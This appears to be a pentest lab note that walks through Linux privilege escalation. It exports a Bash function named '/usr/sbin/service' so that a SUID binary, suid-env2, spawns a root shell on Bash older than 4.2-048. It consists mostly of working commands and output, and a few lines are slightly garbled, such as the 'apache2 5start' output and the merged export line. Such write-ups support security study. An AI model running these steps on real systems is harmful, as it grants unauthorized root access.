 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

In some shells (notably Bash <4.2-048) it is possible to define user functions with an absolute path name.

These functions can be exported so that subprocesses have access to them, and the functions can take precedence over the actual executable being called.

1. Find SUID/SGID files on the target:

```bash - target
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

==-rwsr-sr-x 1 root staff 6899 May 14 2017 /usr/local/bin/suid-env2==

The suid-env file should execute with root user permissions.

2. Run strings on the SUID file:

```bash - target
strings /usr/local/bin/suid-env2
```

/usr/sbin/service apache2 start

The file could be trying to run the /usr/sbin/service program.

3. We can verify this with strace:

```bash - target
strace -v -f -e execve /usr/local/bin/suid-env2 2>&1 | grep service
```

> [pid 16729] execve("/bin/sh", ["sh", "-c", "/usr/sbin/service apache2 5start"]...

4. Optionally, we can also verify with ltrace:

```bash - target
ltrace /usr/local/bin/suid-env2 2>&1 | grep service
```

system("/usr/sbin/service apache2 start"

This reveals that the system function is being used to execute the /usr/sbin/service program.

5. Verify the version of Bash is lower than 4.2-048:

```bash - target
bash --version
```

GNU bash, version 4.1.5(1)-release (x86_64-pc-linux-gnu)

6. Create a Bash function with the name “/usr/sbin/service” and export the function:

```bash - target
function /usr/sbin/service { /bin/bash -p; } export –f /usr/sbin/service
```

7. Execute the SUID file for a root shell:
```bash - target
/usr/local/bin/suid-env2
```

```bash - target
id
```

> uid=0(root) gid=0(root) groups=0(root)
